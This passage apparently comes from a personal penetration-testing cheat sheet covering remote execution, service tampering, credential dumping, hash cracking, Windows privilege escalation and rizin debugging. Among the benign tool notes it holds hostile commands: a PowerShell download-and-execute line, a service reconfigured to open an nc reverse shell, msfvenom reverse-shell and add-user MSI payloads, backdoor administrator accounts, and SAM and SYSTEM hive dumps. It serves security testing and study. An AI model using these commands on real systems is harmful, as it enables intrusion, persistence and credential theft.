        # Use a PAC file, default listen on 3128
        alpaca -C <uri> -d <port>
        # Use file:///<path> for local file

        # NTLM - Asks for credentials by default
        alpaca -d <domain> -u <user> [-H]
        # -H - Generate NTLM hash for the creds

        # Export the creds to auto-authenticate
        export NTLM_CREDENTIALS="<NTLM-hash>"
        alpaca -C <pac> -d <dom> -u <usr>
      #+end_src
*** paxy
    - [[https://github.com/robbiemcmichael/paxy][Site]] - Simple Go PAC proxy
      #+begin_src sh
        # It also servers the PAC in /pac
        paxy -p <port> <pac>
        # Only listening in 127.0.0.1
        # See the readme for PAC escalability
      #+end_src

* Remote Command Execution
** Windows
   - PowerShell to run commands remotely via sessions:
     #+begin_src bat
       $sess = New-PSSession -Computer <computer-name>
       Invoke-Command -Session $sess -ScriptBlock {<command>}
       Copy-Item "C:\<local-path>" -Destination "C:\<remote-path>" -ToSession $sess
     #+end_src
   - Powershell executing remote scripts locally with [[https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6][Invoke-Expression]], see more examples [[https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70][here]]
     #+begin_src bat
       powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>/helloworld.ps1')
     #+end_src

* Service Tampering
** Windows
   - List services and their permissions:
     #+begin_src bat
       sc query

       sc qc <service-name>
     #+end_src
   - Change the command they execute:
     #+begin_src bat
       :: Launch a reverse shell:
       sc config <service-name> binpath= "C:\<path-to-nc>.exe -n <ip> <port> -e C:\WINDOWS\System32\cmd.exe"

       sc config <service-name> obj= ".\LocalSystem" password= ""

       :: Verify the changes
       sc qc <service-name>
     #+end_src
   - Start the service:
     #+begin_src bat
       net start <service-name>
     #+end_src

* Credentials
** Dump
*** Windows
**** Common Registry, logs, etc
***** Batch / cmd.exe
      - Dump the SAM and System databases to get the hashes using ~samdump2 System SAM~:
        #+begin_src bat
          :: /y -> yes ; /c -> compress
          reg save HKLM\System C:\System
          reg save HKLM\SAM C:\SAM
        #+end_src
      - Software and Security:
        #+begin_src bat
          reg save HKLM\Security C:\Security
          reg save HKLM\Software C:\Software
        #+end_src
      - Default:
        #+begin_src bat
          reg save HKEY_USERS\.DEFAULT C:\DEFAULT
        #+end_src
      - NTUSER (from all users):
        #+begin_src bat
          :: Select user
          ntuser hive C:\Users\<user>\NTUSER.DAT

          :: Try this if it doesn't work:
          reg load HKEY_Users\User<USER> "C:\Users\<user>\NTUSER.DAT"

          :: Backup NTUSER.dat
          reg save HKCU C:\NTUSER.DAT

          :: Backup UsrClass.dat
          reg save HKCU\Software\Classes C:\UsrClass.dat

          :: Note that selecting an offline user may allow funny things
          ntuser hive C:\Users\Default\NTUSER.DAT
          :: See http://smallvoid.com/article/winnt-reset-password.html
        #+end_src
      - All the Registry Transaction Logs (~.LOG~) of the hives
      - All the ~.SAV~ files
      - Registry Backups: ~%SystemRoot%\System32\config\RegBack~
      - Transactional Registry Transaction Log (~.TxR~)
      - TODO - Find the location of:
        - Amcache: ~C:\Windows\AppCompat\Programs~
        - [[https://www.stevebunting.org/udpd4n6/forensics/restorepoints.htm][Restory Points]]
        - Event log: ~C:\WINDOWS\System32\winevt\logs~
        - Prefetch: ~C:\Windows\Prefetch~ (~.pf~ files)
        - Windows Error Reporting: ~C:\ProgramData\Microsoft\Windows\WER\ReportArchive~
        - RDP cache ~%USERPROFILE%\AppData\Local\Microsoft\Terminal ServerClient\Cache~
        - Recycle BIN: ~C:\$RECYCLE.BIN~
          - [[https://www.secjuice.com/windows-forensics-artifacts/][Find how to restore metadata]]
        - Windows Shortcuts: ~%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Recent~
          - [[https://www.secjuice.com/windows-forensics-artifacts-2/][Find how to read metadata]]
        - Recent Files / Most Used Files:
          - ~%USERPROFILE%\AppData\ Roaming\Microsoft\Windows\Recent\AutomaticDestinations~
          - ~%USERPROFILE%\AppData\ Roaming\Microsoft\Windows\Recent\CustomDestinations~
            - [[https://www.secjuice.com/windows-forensics-artifacts-2/][Find how to process them]]
      - [[https://www.sans.org/security-resources/posters/windows-forensic-analysis/170/download][Location Cheatsheet SANS]]
***** Impacket
****** Secretsdump
       - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py][Site]] - Get NTLM hashes from NTDS.dit
         #+begin_src sh
           secretsdump.py -ntds <ntds.dit> -system <system-hive>
         #+end_src
**** VNC
    - First locate the name of the folder under ~Program Files~ as it will match the registry name, for example:
      - ~C:\Program Files\RealVNC\WinVNC4~ -> Matches ~RealVNC\WinVNC4~ in the Reg
      - ~C:\Program Files\RealVNC\WinVNC~ -> Matches ~RealVNC\WinVNC~ in the Reg
    - Reference [[https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/][raymond.cc]]
***** RealVNC
      #+begin_src bat
        reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
        :: Try Password as well
      #+end_src
***** TightVNC
      #+begin_src bat
        reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v password
        :: Try Password or PasswordViewOnly
      #+end_src
***** TigerVNC
      #+begin_src bat
        reg query HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 /v password
        :: Try Password
      #+end_src
***** UltraVNC
      #+begin_src bat
        type "C:\Program Files\UltraVNC\ultravnc.ini"
        :: Find it in passwd or passwd2
      #+end_src
** Import
   - Apparently it is possible to import with ~certutil~ the CodeSingPCA.crl files as they are CA certificates

* Hashes
** Identification
*** Name-That-Hash
    - [[https://github.com/HashPals/Name-That-Hash][Site]] - Identify and hashcat/john id
      #+begin_src sh
        nth --no-banner --text <hash>
      #+end_src
*** Haiti
    - [[https://github.com/noraj/haiti][Site]] - Identify hashes
      #+begin_src sh
        haiti <hash>
      #+end_src
** Bruteforce
*** Wordlists
**** Pre-made
***** Passwords
      - [[https://github.com/danielmiessler/SecLists/tree/master/Passwords][SecLists]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/NordVPN.txt][NordVPN.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/twitter-banned.txt][twitter-banned.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/hotmail.txt][hotmail.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/myspace.txt][myspace.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt][top-20-common-SSH-passwords.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/unkown-azul.txt][unkown-azul.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/cirt-default-passwords.txt][cirt-default-passwords.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/2020-200_most_used_passwords.txt][2020-200_most_used_passwords.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Common-Credentials/10k-most-common.txt][10k-most-common.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt][10-million-passwd-top-1000000.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/alleged-gmail-passwords.txt][alleged-gmail-passwords.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz][rockyou.txt.tar.gz]]
      - [[https://wiki.skullsecurity.org/Passwords][SkullSecurity]]
      - [[https://github.com/berzerk0/Probable-Wordlists][Probable-Wordlists]]
***** Users
      - [[https://github.com/danielmiessler/SecLists/tree/master/Usernames][SecLists]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Usernames/cirt-default-usernames.txt][cirt-default-usernames.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Usernames/sap-default-usernames.txt][sap-default-usernames.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Usernames/Names/names.txt][names.txt]]
        - [[https://github.com/danielmiessler/SecLists/raw/master/Usernames/xato-net-10-million-usernames.txt][xato-net-10-million-usernames.txt]]
**** Tools
***** CeWL
      - [[https://github.com/digininja/CeWL][Site]] - Custom generator from website:
        #+begin_src sh
          cewl -d 9 -w <outlist> -e --email_file <oemailist> -a --meta_file <ometalist> <url>
          # -d <dep> - Scrap depth high=crash
          # -m <len> - Minimum word length
          # -o - Spider also out-scope sites
          # -n - Don't show the words found
          # -c - Show the word count
          # -u <UA> - Set User Agent
          # --proxy_host | --proxy_port
          # --auth_type  | --auth_user/pass
        #+end_src
***** Duplicut
      - [[https://github.com/nil0x42/duplicut][Site]] - Remove duplicates without sort
        #+begin_src sh
          duplicut -l 255 <ddict> -o <udict>
          # -l <num>  Filters len str > <num>
          # -p        Filters non-ASCII lines
        #+end_src
      - Remove words from other dictionaries:
        #+begin_src sh
          # Using bash/zsh pipes
          duplicut -l 255 <(cat <odict> <(echo "-<ndict>-") <ndict>) -o >(sed -n '/-<ndict>-/{:a;n;p;ba;}' > <cndict>)
          # or sed -n '/-<ndict>-/,${//!p}'
        #+end_src
***** Crunch
      - [[https://github.com/crunchsec/crunch][Site]] - Custom wordlist generator
      - In almost all cracking circumstances is better to use John/Hashcat rules
      - Find lengthy examples in this [[https://adaywithtape.blogspot.com/2011/05/creating-wordlists-with-crunch-v30.html][post]]:
        #+begin_src sh
          crunch <min-len> <max-len> -f charset.lst <setname> -t <pattern>
          # -o <out-file> - Save to file
          #
          # <pattern> @ substitutes -f <set>
          #
          # If NO -f, <pattern> specials are:
          #   @  ->  lower-case characters
          #   ,  ->  upper-case characters
          #   %  ->  numbers
          #   ^  ->  symbols (space included)

          # Word of length 11 with symbols:
          crunch 11 11 -f <charset.lst> symbols-all -t Morris1984@
          # -f symbols-all has no whitespace

          # Equivalent without -f
          crunch 11 11 -t Morris1984^
          # ^ includes whitespace
        #+end_src
*** John The Ripper
    - [[https://github.com/openwall/john/tree/bleeding-jumbo/run][Tools to format to hash.john]]
      - Tools like: ~ssh2john~, ~rar2john~...
    - [[https://openwall.info/wiki/john/rules][Best Rules]] - Get [[https://github.com/kost/jtr-stuff/tree/master/rules][last]] KoreLogic-derived
      #+begin_src sh
        # Include them in the ruleset
        sudo tee -a /etc/john/john.conf < <new.rules> >/dev/null

        # Find the name of all the rules
        awk -F':|]' '/^\[.*Rules:/{print $2}' /etc/john/john.conf | less
      #+end_src
    - Automatically detects the hash or use: ~hashid -j <hash>~ (~-e~ ask for more)
    - Simple usage - Crack NTLM hashes
      #+begin_src sh
        john --format=NT --wordlist=<wordlist> <hashfile>
        # For NTLMv2 use: netntlmv2
      #+end_src
    - All digits from 0 to 999999 - multi-process:
      #+begin_src sh
        john --mask='?d' --min-length=1 --max-length=6 --fork=8 <hashfile>
      #+end_src
    - Read wordlist from stdin + apply [[http://www.openwall.com/john/doc/RULES.shtml][rules]]:
      #+begin_src sh
        echo "test" | john --pipe --format=NT --rules=KoreLogicRules <hashfile>

        # Keep john interactive alt 1
        (echo "test" | exec john --pipe --format=NT --rules=KoreLogicRules <hashfile>)

        # Keep john interactive alt 2
        john --pipe --format=NT --rules=KoreLogicRules <hashfile> < <(echo "test")
      #+end_src
    - List detected OpenCL devices
      #+begin_src sh
        optirun --no-xorg -b none -- pvkrun john --list=opencl-devices
      #+end_src
    - Run on a dedicated device:
      #+begin_src sh
        # Note that only formats ending in
        # -opencl work
        vblank_mode=0 nice -10 optirun --no-xorg -b none -- pvkrun john --pipe --rules=All --devices=1 --format=<hashtype>-opencl <hashfile> < <(echo "test")

        # Obtain information
        pkill -USR1 john

        # Exit john without killing optirun
        pkill -INT john
      #+end_src
    - Run on multiple devices at once
      #+begin_src sh
        # Not recommended as it doesn't
        # support reading from stdin nor
        # splits according to the
        # processing capabilities, unlike
        # hashcat
        vblank_mode=0 nice -10 optirun --no-xorg -b none -- pvkrun john --fork=2 --devices=1,2 --format=<hashtype>-opencl --wordlist=<wordlist> <hashfile>
      #+end_src
    - TODO - Gen dictionary with rules ([[https://charlesreid1.com/wiki/John_the_Ripper/Password_Generation][see]])
*** Hashcat
**** Installation
     - Pacman - cuda                  - dGPU
     - Pacman - intel-compute-runtime - iGPU
     - AUR    - intel-cpu-runtime     -  CPU
     - AUR    - hashcat-git
     - AUR    - hashcat-utils-git
**** Old packages/Legacy Systems - Unneeded
     - AUR    - intel-opencl          -  CPU
     - AUR    - intel-opencl-runtime  -  CPU
**** Rules
     - [[https://github.com/rarecoil/pantagrule][Pantragrule]] - Better and more efficient ~rockyou.txt~
     - [[https://github.com/stealthsploit/Optimised-hashcat-Rule][Optimized OneRuleToRuleThemAll]]
       - Check the README for more rules
     - [[http://contest-2010.korelogic.com/rules-hashcat.html][KoreLogic rules]]
     - [[https://github.com/nyxgeek/nyxgeek-rules/tree/master/hashcat-rules][Simple rules]]
**** Usage
     - Manually extract the hashes (from ~shadow~, etc) and place it into a file
     - Identify the hash type:
       - ~hashid -m <hash>~ (~-e~ ask for more)
       - Run ~john~ to see if it automatically recognizes the hash
     - Find the ~hashcat~ numeric ID for the hash type if not auto-recognized:
       #+begin_src sh
         hashcat -h | grep -i --color=always <type> | less -R
       #+end_src
     - List all back-ends to use with ~-D~ / ~-d~
       #+begin_src sh
         optirun --no-xorg -b none -- pvkrun hashcat -I
       #+end_src
     - ~WARNING:~ The ~-O~ flag used for optimized kernels may not find the password if the salt contains emojis/non-ASCII characters
     - CUDA + OpenCL CPU
       #+begin_src sh
         # Use -a 1 with multiple dicts
         # Use -r <rule> to apply rules
         # Other attacks in hashcat -h end
         vblank_mode=0 nice -10 optirun --no-xorg -b none -- pvkrun hashcat -D1,2 -d1,4 -a 0 -m <hash-id> -O -w 4 <hash-file> <wordlist>
         # -D 1 -> CPU  | -D 2 -> GPU
         # -d 1 -> CUDA | -d 4 -> OpenCL CPU
         # See above for issues with -O flag
       #+end_src
     - CUDA + OpenCL GPU
       #+begin_src sh
         # Use -a 1 with multiple dicts
         # Use -r <rule> to apply rules
         # Other attacks in hashcat -h end
         vblank_mode=0 nice -10 optirun --no-xorg -b none -- pvkrun hashcat -D2 -d1,2 --force -a 0 -m <hash-id> -O -w 4 <hash-file> <wordlist>
         # -D 2 -> GPU
         # -d 1 -> CUDA | -d 2 -> OpenCL GPU
         # To use the unstable OpenCL GPU
         # it is required to use --force
         # See above for issues with -O flag
       #+end_src
     - TODO - Use masks (best performance)
     - TODO - Create dictionary via rule/mask
*** Decode
**** References
     - Many Windows tools from [[https://aluigi.altervista.org/pwdrec.htm][aluigi]]
**** VNC
     - Using [[https://aluigi.altervista.org/pwdrec/vncpwd.zip][Aluigi vncpwd]] (may work on Linux):
       #+begin_src bat
         vncpwd <hash-or-file>
       #+end_src

* Permissions
** Impersonation
*** Windows
**** Check Privileges
     - Check if the current user has impersonation permissions:
       #+begin_src bat
         whoami /priv
         :: Check the SeImpersonatePrivilege
         :: or SeAssignPrimaryTokenPrivilege
       #+end_src
     - Service accounts usually have this ability
**** Juicy Potato
     - Impersonating with [[https://github.com/ohpe/juicy-potato][Juicy Potato]]:
       #+begin_src bat
         :: msfvenom <rev-shell>.exe
         JuicyPotato -l <non-used-port> -t * -p <rev-shell>.exe
       #+end_src
**** Chimichurri - IIS 7/7.5
     - Use [[https://github.com/Re4son/Chimichurri/][Chimichurri]] (future: [[https://itm4n.github.io/chimichurri-reloaded/][new version]]):
       #+begin_src bat
         :: Spawn a reverse shell on IP:PORT
         Chimichurri <lhost> <lport>
       #+end_src
**** Churraskito - IIS 6
     - Use [[https://github.com/Re4son/Churraskito][Churraskito]] (~stdafx.h~ included):
       #+begin_src bat
         :: Spawn a reverse shell on IP:PORT
         churraskito <lhost> <lport>
       #+end_src
**** Churrasco - Windows Server 2003 - IIS 6
     - Execute commands with [[https://github.com/Re4son/Churrasco][Churrasco]]:
       #+begin_src bat
         :: Usage: churrasco -d "<cmd>"
         churrasco -d "cmd.exe"
         :: Running cmd.exe is not immediate
         :: + may overlap with non-SYSTEM cmd

         :: Add backdoor user
         churrasco -d "net user backup backup"
         churrasco -d "net localgroup administrators backup /add"
       #+end_src
** Installation
*** Windows - MSI
    - Check whether the current user can install MSI with elevated privileges:
      #+begin_src bat
        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

        :: Or the machine in general
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
      #+end_src
    - Create an evil MSI:
      #+begin_src sh
        # Shell
        msfvenom -p windows/shell_reverse_tcp LHOST=<local-ip> LPORT=<listening-port> EXITFUNC=thread -f msi -o shell.msi

        # New user
        msfvenom -p windows/adduser USER=backup PASS=backup -f msi -o user.msi
      #+end_src
    - Execute it:
      #+begin_src bat
        msiexec /quiet /qn /i <file-path>.msi
      #+end_src

* Buffer Overflow
** Security Features Meaning
*** ASLR
    - Base address randomization of loaded applications and libraries
    - Check:
      #+begin_src sh
        cat /proc/sys/kernel/randomize_va_space
        # 0 -> Disabled

        ldd <file>  # Run it multiple times
        # Libs in different address each time
      #+end_src
    - Prevents ~return to libc~
    - Bypass with ~bruteforce-return to libc~ or ~return to plt~ if PIE is disabled and ~system~ (or any other privesc function) is used by the binary
*** PIE / PIC
    - Position Independent Executable / Code
    - Does the same than ASLR but for the binaries address space when executed
    - Check with ~checksec~
    - Prevents ~return to plt~
*** Canaries
    - Bytes that, when overridden, terminate the program
    - Check with ~checksec~
    - Bypass by leaking their address
*** DEP / NX
    - Data Execution Prevention / No eXecute
    - Prevent executing data (shellcode) from the memory (stack, heap, etc)
    - Check with ~checksec~
    - Bypass with ~return to libc~
*** RELRO
    - RELocation Read Only
    - Makes the relocation sections used to resolve dynamically loaded functions (GOT) read-only by resolving them at beginning of execution
    - Full RELRO prevents ~GOT override~
** Checksec
   - [[https://github.com/slimm609/checksec.sh][Site]] - check the properties of binaries:
     #+begin_src sh
       checksec --file=<file>
       # Multiple files:    --listfile=<list>
       # Running process:   --proc=<name>
       # Running proc libs: --proc-libs=<pid>
       # All running procs: --proc-all
     #+end_src
** Identify Badchars
*** Shell - Bash/Zsh
    - Chars generation:
      #+begin_src sh
        # All: 0102030405060708090a...
        seq 255 | xargs printf '%02x'

        # All but 01|0a: 0203040506070809...
        seq 255 | awk -v ORS= '($0=sprintf("%02x",$0))!~/01|0a/'

        # Feed all hex as input in bash/zsh
        printf $(seq 255 | xargs printf '\\x%02x')

        # Feed some hex as input in bash/zsh
        printf $(seq 255 | awk -v ORS= '($0=sprintf("\\x%02x",$0))!~/01|0a/')
      #+end_src
*** TODO exploit-bad-characters
    - [[https://github.com/silverark/exploit-bad-characters][Site]] - Python library to generate and filter bad chars
*** TODO expdevBadChars
    - [[https://github.com/mgeeky/expdevBadChars][Site]] - good/bad buffer char comparer
      - Use ~px 255 @r:SP~ as "bad buffer"
*** Rizin
    - Reopen binary with all bytes as input:
      #+begin_src sh
        # Quotes may be necessary around $()
        ood $("!printf $(seq 255 | xargs printf '\\\\x%02x')")
      #+end_src
    - Find bytes that made it to the stack:
      #+begin_src sh
        # Expected output: 01020304...ff
        px0 255 @r:SP
        # Some bytes may be slightly changed
        # Use expdevBadChars to locate them
      #+end_src
** Rizin
*** Resources
    - [[https://github.com/rizinorg/rizin][Project]] - [[https://book.rizin.re/][Docs]] - [[https://rizin.re/][Official Page]]
*** Troubleshoot
    - If the payload segfaults the binary it may be due to a misaligned stack:
      - Either use NOPs as padding (before and after the payload)
      - Or add a ~ret~ after the offset to IP and before the shellcode - [[https://www.ret2rop.com/2018/08/return-to-plt-got-to-bypass-aslr-remote.html?showComment=1586731690087#c613236550826332244][Ref]]
    - If the BoF happens in a forked child and ~e dbg.follow.child=true~ or ~dpc pid~ don't help, use the shell to attach:
      #+begin_src sh
        # Attach newest <bin> in debug mode
        # Continue proc + close fd afterwards
        o dbg://$(!pgrep -n <bin>); dc; o-*

        # Or the same from the shell
        rizin -c 'dc; o-*' -d $(pgrep -n <bin>)
      #+end_src
*** Most useful commands
    #+begin_src sh
      # Set analysis region
      e analysis.in=io.maps  # All bin memory
      e analysis.in=dbg.maps # All mapped memory
      e analysis.in=range    # In addr range...
      e analysis.from=<addr>
      e analysis.to=<addr>

      # Analysis
      aa          # Almost-all analysis
      aaa         # Deeper aa (non-experimental)
      aac [len]   # Analyze func calls
      aaf         # Analyze all functions
      aan[gr]     # Autoname funcs: [g]o/no-[r]et
      aad [len]   # Analyze data refs to code
      aaF         # Apply signatures from sigdb
      aao         # Analyze all objc references
      aap         # Analyze func preludes
      aas [len]   # Analyze symbols
      aaS         # Analyze all sym. flags
      aaT [len]   # Analyze code after trap-sleds
      aar [len]   # Analyze xrefs in current sect
      aav [sect]  # Find values in sect or map
      af[r]       # Analyze funcs recursively
      afa[l]      # Analyze func args in call
      afva        # Local func variable/args...
      afu <addr>  # Analyze func until addr
      pdga        # Switch to rz-ghidra analyzer

      # Files
      o [<file>]   # List fds/open new file
      oi[-] [file] # Ext fd info/close by idx
      oo[+]        # Reopen file [in rw]
      ood [args]   # Reopen in debug + args
      oodf [file]  # Reopen debug + file
      oodr [rzrun] # Reopen debug + rz-run
      oC <len>     # New-fd memcpy len bytes
      o-<fd>       # Close file by fd
      o-*          # Close all fds
      o-!          # Close all fds - selected
      ox <f> <x>   # Exchange fds f and x
      o <file> <addr> <mode>  # Map file
      on <file> <addr>  # Map file no rz_bin
      e cmd.open=<cmd>  # Run cmd after open

      # File information
      iI    # Magic, compiler, security...
      ieee  # Entry and exitpoints - r2 only
      is    # Symbols
      ii    # Imports

      # Strings in .data and the whole file
      iz ~<grep-search>
      izz  # Append a `q' for less verbosity

      # Fast-search the output in HUD mode
      izz ~{:... # {: -> Pretty format
      # {: format is recommended for HUD as
      # it seems to ignore unaligned text

      # HUD mode
      <arrows>  # Select a result
      <Enter>   # Seek to address

      # Grep rows and cols numbers
      izz ~:<row-ini>..<row-end>[<col>]
      izz ~<search-term>[<col-ini>-<col-end>]
      izz ~<search-term>:<row>[<col1>,<col5>]
      izz ~+..<search> # i-case + less pager

      # Seek to..
      s `ieq`     # Entrypoint (alt: entry0)
      sa <align>  # Alignment
      sf.         # Beginning of current func
      sf [<func>] # Next/specific function
      sr <reg>    # Register
      shu         # Previous seek (undo)
      shr         # Next seek (redo)

      # Show current seek position 0 padded
      spad

      # Debug files/processes/threads...
      o dbg://<f> # Debug file/pid in new-fd
      dd [<file>] # Show/open file (?)
      doo [args]  # Reopen file in debug mode
      doof [file] # Reopen file in debug mode
      dor [rzrun] # Set rz-run opts ',' sep
      doc         # Close debug session
      dd-<fd>     # Close file descriptor
      dp [<pid>]  # Show pid+children of pid
      dpl         # Show all attachable pids
      dpa <pid>   # Attach (and select) pid
      dp=<pid>    # Select pid
      dpc[*]      # Select/Display forked pid
      dpn         # Fork in a new process
      dpk <p> [<s>] # Send signal <s> to <p>
      dpt [<pid>] # Show threads of pid
      dpt=<thrd>  # Attach to thread
      dptn        # Clone in a new thread
      e cmd.load=<cmd>  # Run cmd after load

      # Debug step/continue...
      dsp         # Step until program starts
      ds [<num>]  # Step one/num instructions
      dso [<num>] # Step over one/num instr
      dss <num>   # Skip num instructions
      dsu <addr>  # Step until address
      dsi <cond>  # Step until condition
      dsl [<num>] # Step one/num code lines
      dsb         # Step back (tracing req)
      dc [<pid>]  # Continue all/one pids
      dcb         # Continue back (tracing)
      dcu <multi> # Continue until addr/range
      dcr         # Continue until return
      dcc         # Continue until call
      e cmd.prompt=sr PC  # Show PC on cmd prompt

      # Breakpoints...
      db <addr>    # Create one in address
      dbH <addr>   # Create a hardware one
      dbc <addr> <cmd> # Run command at brkp
      dbn [<name>] # Show/name current breakp
      db           # Show defined
      dbs <addr>   # Toggle breakpoint
      db-<addr>    # Remove breakpoint
      drx-<num>    # Remove hardware breakp
      dbts <addr>  # Toggle tracing
      dbt          # Show backtraces
      dt [<addr>]  # Show traces
      dts+/-       # Start/Stop trace session
      dtg          # Show trace graph
      dtgi         # Interactive trace
      dtsm         # List trace memory-map
      e cmd.bp=<cmd>  # Run cmd on bp hit
      e cmd.hitinfo=0 # Hide bp info when hit

      # Registers...
      dr=            # Show in columns
      dr <reg>=<val> # Set value
      dr?<reg>       # Show value: ? optional
      dr??           # Show values + roles
      drd            # Show modified only
      dro            # Show previous values
      drr            # Show refs: telescoping

      # ESIL setup - Rizin also has the aez* cmds
      aei             # Initialize ESIL VM
      aeim [<addr>..] # Initialize ESIL VM stack
      aeip            # Init ESIL VM IP to $$
      aepc <addr>     # Change ESIL VM PC: Use $$
      ar <reg> [=<v>] # Show/modify ESIL register

      # In Panel View show ESIL registers content
      e -> ar         # Use Tab to change panels
      e -> pxr @ SP

      # ESIL display info
      e emu.str=true  # Display smart ESIL info
      e asm.emu=true  # Display verbose ESIL info

      # ESIL memory variables
      e emu.write=true # Allows modifying memory
      e esil.fillstack=<pat>     # Fill stack
      e esil.stack.pattern=<pat> # with a pattern
      e esil.romem=true   # Make ESIL mem RO
      e esil.nonull=true  # Stop when null ptr rw

      # ESIL analyze
      aae             # ESIL analyze references
      aaef            # aae in all functions

      # ESIL step
      aes             # ESIL step in
      aeso            # ESIL step over
      aesu <addr>     # ESIL step until
      aesuo <optype>  # ESIL step until opcode_t
      aesb            # ESIL step back: trace req

      # ESIL trace
      aets            # ESIL list traces
      aets+           # ESIL new trace

      # ESIL function
      aef [<addr>]    # ESIL emulate function
      aefa [<addr>]   # ESIL obtain func args

      # Objects...
      pf S @obj.<name>   # Show stored string
      pf p @obj.<name>+8 # Show length 64bit

      # Disassemble... all accept <num> instr
      pds        # Call summary
      pC         # Print in columns
      pdf        # Print function
      pdr        # Show recursive call graph
      pdg        # Decompile with Ghidra
      pdgd       # Disassemble with Sleigh

      # Disassemble configuration options:
      e ghidra.verbose=false # Reduce warnings
      e asm.describe=true # Explain instruction
      e asm.pseudo=true   # Show pseudo-assembly
      e asm.decode=true   # Show code analysis

      # 10 bytes before + 10 after: Noted-hex
      pxc 20 @ $$ - 10

      # 20 bytes with text convertion in ESP
      pxz 20 @ esp

      # Detailed hex + jump references notes
      pxr

      # Locate usage of addresses (use aa)
      axt [<addr>]  # Refs to this address
      axf [<addr>]  # Refs from this address
      ax. [<addr>]  # Refs from/to this addr - r2
      axff [<addr>] # Refs from this funct
      axl ~...      # All references HUD mode
      axg [<addr>]  # Current func call-graph
      afl           # List analyzed functions
      aflm ~..      # List recursive func calls
      afi           # Verbose afl
      afM           # Show functions map
      afo           # Show function address
      afx           # Show functions refs
      afvx          # Show funcs vars refs
      afvxv         # Funcs local vars refs
      afv           # Show function variables
      afvd          # Funcs vars/args value
      afvr          # Reg-based args/locals
      afvs          # Stack-based args/locals
      afvb          # Base-pointer arg/locals
      afv=          # Funcs vars/args drefs
      afvf          # Show rel stackframe var
      afbr          # Func exit instr addrs

      # Rename
      afvn <name> [<old>]   # Func arg/var
      afvr <reg> <name> [t] # Reg local arg
      afvs <del> <name> [t] # Stack local arg
      afvb <del> <name> [t] # B-ptr local arg

      # Show function parameters as arg[<n>]
      e dbg.funcarg=true

      # Memory maps
      iSq     # Sections - iS= is prettier
      iSS     # Mem segments
      om      # om= is prettier - def IO map
      im      # Predefined memory
      dm      # List current pid mem map
      dmm     # List modules/libraries in mem
      dmh     # Show heap map
      dmhg    # Show head graph
      dmha    # Show all malloc state info
      dmhbg   # Doubly-linked-list heap graph
      dmi <lib/addr> [<sym>]  # Lib symbols
      dmia <lib/addr>         # All lib info

      # Run command on search hit
      e cmd.hit=<cmd>

      # Limit search results to 1
      e search.maxhits=1

      # Define memory location to search
      e search.in=dbg.maps  # Mapped dbg memory
      e search.in=raw       # All memory

      # Gadget search (hex) in address range
      /a jmp esp @( <addr-ini> <addr-end> )

      # Or set default search ranges
      e search.from=<addr>
      e search.to=<addr>

      # Fine-tune to mem types
      e search.in=dbg.maps.rx

      # Seek to the first search hit
      s/

      # Flagspace
      fs search  # Select search flag space
      f ~{:...   # All flags in space - HUD
      fs *       # Select all flag spaces
      fN         # Name of tag at point
      ff [glob]  # Bytes to next/match flag
      f+<name> <v> # Create/set flag value
      fz[-][name]    # Show/New/Del flag zone
      ft[-][tag] [val] # Show/New/Del tags

      # Interactive option-setter view
      Veq  # Press _ for HUD mode fast-set

      # Find the meaning of an option in HUD
      ell ~{:...  # {: -> Pretty format
      # Remove {: to hide unaligned options
      # Not possible to set values like this

      # Follow forked children
      e dbg.follow.child=true

      # Stop execution when forked child ends
      e dbg.forks=true

      # Interrupt all threads if rizin stops
      e dbg.threads=true

      # Trace program and in a given range
      e dbg.trace=true
      e dbg.trace.inrange=true
      dtc <from> <to>

      # Don't interrupt before syscalls
      e dbg.aftersyscall=false

      # Run command when a syscall is hit
      e cmd.onsyscall=<cmd>

      # Disable ASLR (may require sudo)
      e io.aslr=true

      # Change endianness and architecture
      e! cfg.bigendian   # e! Toggles boolean
      e asm.arch=<arch>

      # Changes will only be done in memory
      e io.cache=true
      e io.pcache=true

      # Show all sub-configurations of key:
      es io  # Display cache, pcache, aslr..

      # Override memory with two Intel NOPs
      wx 9090 @<location>  # wxs - seek after

      # Assemble override
      wa "mov eax, ...;nop" # Write instructions
      # Use rz-asm "mov eax, ...;nop"

      # Extend write
      wen <n> @<location>   # Add <n> null bytes
      wex <hex> @<location> # Add <hex> bytes

      # Convert...
      ?x <str>   # String to hexpairs
      ?x- <hexp> # Hexpair to string
      ?vi <expr> # Expression to decimal
      ?= <expr>  # Expression to hex and dec
      ?X <expr>  # Expression to hex
      ?v <expr>  # Expression to 0x+hex
      ?x+ <expr> # ?v honoring endianness
      ?o <expr>  # Expression to octal
      ?b <expr>  # Expression to binary
      ? <expr>   # Expression to multi-format
